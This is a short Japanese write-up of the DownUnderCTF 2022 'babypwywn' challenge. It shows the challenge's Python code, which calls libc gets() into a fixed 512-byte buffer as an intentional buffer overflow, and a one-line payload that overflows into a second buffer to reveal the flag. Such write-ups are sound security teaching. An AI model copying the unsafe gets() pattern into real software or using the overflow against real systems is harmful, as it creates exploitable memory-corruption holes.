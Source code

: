 # babypwywn - DownUnderCTF2022
この問題は`buf1`のBOFを利用して`buf2`にDUCTFという文字列を書き込むことが目的。

## 解法
サーバーで動いているコードを見ると、
明らかなBufferOverflowが存在していると考えられます。
```python
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

`buf2`の中に`DUCTF`という文字が入っていればいいので、
以下のpayloadを送信します。
```python
io.sendline(b"DUCTF"*1024)
```

